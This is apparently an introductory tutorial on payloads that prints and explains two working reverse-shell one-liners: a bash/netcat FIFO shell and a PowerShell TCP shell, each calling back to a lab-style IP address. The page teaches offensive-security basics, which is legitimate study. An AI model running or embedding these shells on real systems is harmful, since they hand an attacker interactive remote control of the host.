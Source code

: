 # INTRODUCTION TO PAYLOADS

Example - we sent the email or text that was packet's payload as it send across the vast internaet.

In Computing payloads is intended message it can be a command or code that exploit the vulnerability is an OS or applications.

## One liner Examined

Netcat/Bash Reverse Shell One-liner

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

- **rm -f /tmp/f: This deletes the file /tmp/f if it exists. The -f flag forces deletion without prompting for confirmation.**

- **mkfifo /tmp/f: This creates a named pipe (FIFO) at /tmp/f. A FIFO (First In, First Out) is a special file type that can be used for inter-process communication, where one process writes to it and another reads from it.**

- **cat /tmp/f | /bin/bash -i 2>&1:**

- cat /tmp/f reads from the FIFO file /tmp/f and sends the output to the pipeline.

- /bin/bash -i starts an interactive Bash shell. The -i flag ensures that the shell behaves interactively, allowing the attacker to execute commands.

- 2>&1 redirects standard error (stderr, file descriptor 2) to standard output (stdout, file descriptor 1). This ensures that both error messages and normal output are captured and sent to the next part of the command.

- **| nc 10.10.14.12 7777:**

- nc stands for Netcat, a utility for network communication.

- This part connects to a remote server at IP 10.10.14.12 on port 7777. Netcat sends and receives data from this remote host.

- **> /tmp/f:**

- The output of the Netcat connection is written back into the FIFO /tmp/f, creating a feedback loop.

- Essentially, this means whatever is received from the attacker (via Netcat) gets fed back into the shell process.


## PowerShell One-liner Explained

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

